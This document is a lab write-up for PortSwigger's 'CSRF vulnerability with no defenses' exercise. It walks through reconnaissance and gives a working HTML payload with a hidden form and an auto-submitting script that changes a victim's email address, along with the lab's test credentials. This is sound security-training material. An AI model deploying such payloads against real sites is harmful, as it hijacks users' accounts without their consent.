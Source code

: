 Title: CSRF vulnerability with No Defenses
Rank/Tier: Apprentice
Author: Portswigger Web Security Academy
Link: https://portswigger.net/web-security/learning-paths/csrf/csrf-how-to-construct-a-csrf-attack/csrf/lab-no-defenses

# CSRF vulnerability with no defenses
Provided with the following description:
>This lab's email change functionality is vulnerable to CSRF.
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
You can log in to your own account using the following credentials: **```wiener:peter```**

Main take aways from the provided description:
- Credentials to an account: ```wiener:peter```.
- Email change function is vulnerable to CSRF.
- Goal: Create and store HTML that performs CSRF on a malicious server that can change the viewers email.

# Reconnaissance
Accessing the lab we're presented with a blog. Feel free to look through the various posts. The 2 areas of interest is  ```Go to exploit server``` and ```My account``` to reach the goal of the lab. 
- Rationale for ```Go to exploit server``` is the name. In the description it said to upload HTML to the exploit server.
- Rationale for ```My account``` is in the lab description about the change email functionality being vulnerable to CSRF. Which is most likely located in a page related to my account than a blog post.
![First displayed page](Lab1_Blog_Page.png)

## Exploit server
Clicking on the ```Go to exploit server``` button we're taken to a new web page with the description
> This is your server. You can use the form below to save an exploit, and send it to the victim.
>
> Please note that the victim uses Google Chrome. When you test your exploit against yourself, we recommend using Burp's Browser or Chrome.

URL to exploit server: 
```
https://exploit-0aac00e003b9867880722ace01de0089.exploit-server.net/exploit
```
Protocol:
```
HTTPS
```
File:
```
exploit
```
Head: 
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
```
Body:
```
Hello, world!
```
4 options:
- Store (Save changes to exploit server)
- View exploit (View result of the exploit server impact on the lab website)
- Deliver exploit to victim (Perform the exploit)
- Access Log

![Exploit_Server](Lab1_Exploit_Server_Original.png)

## My account
Displayed a login page requesting a username and password. Insert the provided credentials.

Username:
```
wiener
```
Password:
```
peter
```
![Login page](Lab1_Login_Page.png)

## Change account page
After successfully logging in we're taken to the My Account page which has the option to update email. From the original lab description the vulnerable functionality in this website is the email update suggesting this form to be our initial attack vector.

![My account](My_Account.png)

Viewed the pages source and the update email form is:
```
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <button class='button' type='submit'> Update email </button>
</form>
```
Seds a POST request to ```view-source:https://0a3500ce033f86a480602b28006400dd.web-security-academy.net/my-account/change-email``` containing the newly requested email we want to change to. Doesn't seem to contain a CSRF token.

Lets attempt to change the email from ```wiener@normal-user.net``` to ```wiener2@normal-user.net``` and capture the request in burp suite.
![Email_Change_1](Email_Change1.png)
It seems to use the session ID stored in a cookie


# Web exploitation of update email function through CSRF
⚠️Session ID may vary due to connection issues and needing to restart lab during this process.

In the body of our exploit server we can insert the following:
```
<form action="https://0a1000f60481354e8075944c0074006c.web-security-academy.net/my-account/change-email" method="POST">
	<input type="hidden" name="email" value="wiener3@normal-user.net" />
</form>
<script>
	document.forms[0].submit();
</script>
```
Explanation:
>Send the data to the destination stored in the attribute action. Which in this case is https://0a1000f60481354e8075944c0074006c.web-security-academy.net/my-account/change-email. Which we got from our recon. Using type hidden because we don't want the victim to see this input field. Copy and paste ```name="email" value=""``` from the original form and insert the email we want our account to change to in value.

Use ```document.form[0].submit()``` to execute the form when our exploit server is loaded by the victim/target. 

Explanation
>Does this by using javascript and accessing the document object and use the form[index] 0 which would be our malicious form and submit it.

Select store to save it on the exploit server.
![Insert malicious form](Malicious_Body.png)

Result:<br>
![View exploit](View_Exploit.png)

## End
Change the email in the body once more (Lab website doesn't allow changing of emails to emails already in use by another user). Then click ```store``` to save it to the exploit server. Once saved click ```Deliver exploit to victim```. If successful ```Congratulations, you solved the lab!``` should appear on the top.
![End](Finish.png)


